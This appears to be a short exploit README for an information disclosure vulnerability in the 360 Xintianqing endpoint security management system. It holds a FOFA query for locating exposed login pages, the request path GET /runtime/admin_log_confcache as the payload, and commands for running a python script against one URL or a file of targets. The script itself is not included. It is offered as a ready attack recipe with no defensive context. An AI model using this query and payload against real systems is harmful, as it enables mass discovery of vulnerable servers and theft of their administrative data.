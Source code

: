 fofa

```markdown
title="360新天擎" && body="登录"

```

payload

```markdown
GET /runtime/admin_log_confcache
```

命令

```markdown
pytho3 360新天擎终端安全管理系统存在信息泄露漏洞.py -u url
pytho3 360新天擎终端安全管理系统存在信息泄露漏洞.py -f url.txt
```

